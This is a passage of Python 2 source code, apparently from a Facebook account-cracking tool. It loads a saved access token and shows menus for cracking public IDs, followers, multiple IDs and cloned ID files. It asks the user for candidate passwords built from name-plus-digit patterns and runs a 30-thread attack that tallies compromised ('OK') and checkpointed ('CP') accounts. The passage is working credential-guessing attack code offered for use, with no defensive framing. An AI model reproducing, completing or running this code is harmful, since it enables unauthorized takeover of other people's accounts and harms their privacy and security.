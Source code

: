 
 
    p = ThreadPool(30)
    p.map(main, id)
    print '\x1b[1;97m======================================================='
    print '\x1b[1;37m[=] PROCESS HAS BEEN COMPLETE'
    print '\x1b[1;37m[=] TOTAL OK : \x1b[1;32m' + str(len(oks))
    print '\x1b[1;37m[=] TOTAL CP : \x1b[1;31m' + str(len(cps))
    print '\x1b[1;97m======================================================='
    raw_input('\x1b[1;37mPRESS ENTER TO BACK MENU ')
    menu()
 
 
def name():
    global token
    os.system('clear')
    
    try:
        token = open('Raihan_token.txt', 'r').read()
    except IOError:
        print ''
        print '\tToken not found'
        time.sleep(1)
        login()
 
    os.system('clear')
    print logo
    print '\t     CRACK WITH CHOICE PASS'
    print '\x1b[1;97m======================================================='
    print '[1] CRACK PUBLIC ID'
    print '[2] CRACK FOLLOWERS'
    print '[3] CRACK MULTIPLE ID'
    print '[4] FILE CLONING'
    print '[0] BACK'
    print '\x1b[1;97m======================================================='
    pro_rishu()
 
 
def pro_rishu():
    rishu = raw_input('[?] Choose : ')
    id = []
    oks = []
    cps = []
    if rishu == '1':
        os.system('clear')
        print logo
        print '\t     CHOICE PASS CRACKING'
        print '\x1b[1;97m======================================================='
        p3 = raw_input('[1] name+digit : ')
        p4 = raw_input('[2] name+digit : ')
        p5 = raw_input('[3] name+digit : ')
        p6 = raw_input('[4] name+digit : ')
        p7 = raw_input('[5] name+digit : ')
        p8 = raw_input('[6] name+digit : ')
        ps9 = raw_input('[7] digit : ')
        ps10 = raw_input('[8] digit : ')
        ps11 = raw_input('[9] digit : ')
        ps12 = raw_input('[10] digit : ')
        ps13 = raw_input('[11] digit : ')
        ps14 = raw_input('[12] digit : ')
        ps15 = raw_input('[13] digit : ')
        print '\x1b[1;97m======================================================='
        os.system('clear')
        print logo
        print '\t     CHOICE PASS CRACKING'
        print '\x1b[1;37m======================================================='
        idt = raw_input('[?] INPUT ID : ')
        